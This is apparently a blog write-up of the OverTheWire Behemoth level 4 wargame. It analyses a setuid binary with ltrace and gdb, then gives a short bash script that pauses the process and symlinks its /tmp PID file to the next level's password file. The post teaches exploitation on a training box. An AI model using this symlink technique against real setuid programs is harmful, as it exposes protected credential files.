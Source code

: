 ```yaml
---
layout: post
title: OverTheWire - Behemoth 4
---
```


Site: http://overthewire.org/wargames/behemoth/ <br>
Level: 4 <br>
Situation: Arbitrary Command Execution Vuln?<br><br>

This although was simple still required a little bit of data collection. 

We begin as usual lets create our tmp folder, find the arch type of the file, and run it to see what its default behavior is.

{% highlight bash %}
behemoth4@melinda:~$ mkdir /tmp/bh4
behemoth4@melinda:~$ cd /tmp/bh4
behemoth4@melinda:/tmp/bh4$
{% endhighlight %}
{% highlight bash %}
behemoth4@melinda:/tmp/bh4$ file /behemoth/behemoth4
/behemoth/behemoth4: setuid ELF 32-bit LSB  executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=18d1a5b6fa5fce1e82e9abde67ce0e88766ace32, not stripped
{% endhighlight %}
{% highlight bash %}
behemoth4@melinda:/tmp/bh4$ /behemoth/behemoth4
PID not found!
{% endhighlight %}

We can see we aren’t going to get the full program execution. Before we open it in gdb lets go ahead and dump the global offset table and ltrace the execution.

{% highlight bash %}
behemoth4@melinda:~$ objdump -R /behemoth/behemoth4

/behemoth/behemoth4:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE 
08049ffc R_386_GLOB_DAT    __gmon_start__
0804a00c R_386_JUMP_SLOT   fclose
0804a010 R_386_JUMP_SLOT   sleep
0804a014 R_386_JUMP_SLOT   __stack_chk_fail
0804a018 R_386_JUMP_SLOT   getpid
0804a01c R_386_JUMP_SLOT   puts
0804a020 R_386_JUMP_SLOT   __gmon_start__
0804a024 R_386_JUMP_SLOT   __libc_start_main
0804a028 R_386_JUMP_SLOT   fopen
0804a02c R_386_JUMP_SLOT   putchar
0804a030 R_386_JUMP_SLOT   fgetc
0804a034 R_386_JUMP_SLOT   sprintf
{% endhighlight %}
{% highlight bash %}
behemoth4@melinda:~$ ltrace /behemoth/behemoth4
__libc_start_main(0x80485dd, 1, 0xffffd784, 0x80486b0 <unfinished ...>
getpid()                                           = 8197
sprintf("/tmp/8197", "/tmp/%d", 8197)              = 9
fopen("/tmp/8197", "r")                            = 0
puts("PID not found!"PID not found!
)                             = 15
+++ exited (status 0) +++
{% endhighlight %}

We can tell that a file is trying to be opened and when it is not the application exists out. We run it again to see if it’s the same file.

{% highlight bash %}
behemoth4@melinda:~$ ltrace /behemoth/behemoth4
__libc_start_main(0x80485dd, 1, 0xffffd784, 0x80486b0 <unfinished ...>
getpid()                                           = 9265
sprintf("/tmp/9265", "/tmp/%d", 9265)              = 9
fopen("/tmp/9265", "r")                            = 0
puts("PID not found!"PID not found!
)                             = 15
+++ exited (status 0) +++
{% endhighlight %}

Looking at this we can see it isn't the same. We can also tell that the file it’s checking for is the process id of the application itself. We now open it in GDB to pause the application to add the file and see what happens. We will break on the fopen to get the file location.

{% highlight bash %}
behemoth4@melinda:/tmp/bh4$ gdb /behemoth/behemoth4

(gdb) set disassembly-flavor intel
(gdb) disassemble main
Dump of assembler code for function main:

-- SNIP --
   0x08048626 <+73>:	call   0x80484a0 <fopen@plt>
   0x0804862b <+78>:	mov    DWORD PTR [esp+0x20],eax
   0x0804862f <+82>:	cmp    DWORD PTR [esp+0x20],0x0
   0x08048634 <+87>:	jne    0x8048644 <main+103>
   0x08048636 <+89>:	mov    DWORD PTR [esp],0x804874a
   0x0804863d <+96>:	call   0x8048470 <puts@plt>
   0x08048642 <+101>:	jmp    0x804868d <main+176>
-- SNIP --

-- SNIP -- 
   0x08048671 <+148>:	call   0x80484c0 <fgetc@plt>
   0x08048676 <+153>:	mov    DWORD PTR [esp+0x24],eax
   0x0804867a <+157>:	cmp    DWORD PTR [esp+0x24],0xffffffff
   0x0804867f <+162>:	jne    0x804865e <main+129>
   0x08048681 <+164>:	mov    eax,DWORD PTR [esp+0x20]
   0x08048685 <+168>:	mov    DWORD PTR [esp],eax
   0x08048688 <+171>:	call   0x8048430 <fclose@plt>
-- SNIP --

End of assembler dump.
(gdb) break *0x08048626

{% endhighlight %}

From what we know fgetc is used to get characters from a file.
So we will include some data for testing sake.

{% highlight bash %}
behemoth4@melinda:~$ echo "a" > /tmp/10857
{% endhighlight %}

{% highlight bash %}
(gdb) continue
Continuing.
a
Finished sleeping, fgetcing
[Inferior 1 (process 10857) exited normally]
{% endhighlight %}

Interestingly enough it seems to also show us the file contents. Now we know we can use a symlink to link to the password file and in theory will be able to utilize this to read the password file. However in order to do that we will create the file after the application is ran. To do this we will create a simple bash script utilizing the kill command to pause execution of the application long enough for the script to create the symlink.

{% highlight bash %}
#runit.sh
/behemoth/behemoth4&
PID=$!
kill -STOP $PID
ln -s /etc/behemoth_pass/behemoth5 /tmp/$PID
kill -CONT $PID
echo $PID
{% endhighlight %}

Now we give it execution permissions and run the application.

{% highlight bash %}
behemoth4@melinda:/tmp/bh4$ chmod +x runit.sh
behemoth4@melinda:/tmp/bh4$ ./runit.sh 
12421
behemoth4@melinda:/tmp/bh4$ Finished sleeping, fgetcing
[OMITTED]
{% endhighlight %}

There is our password.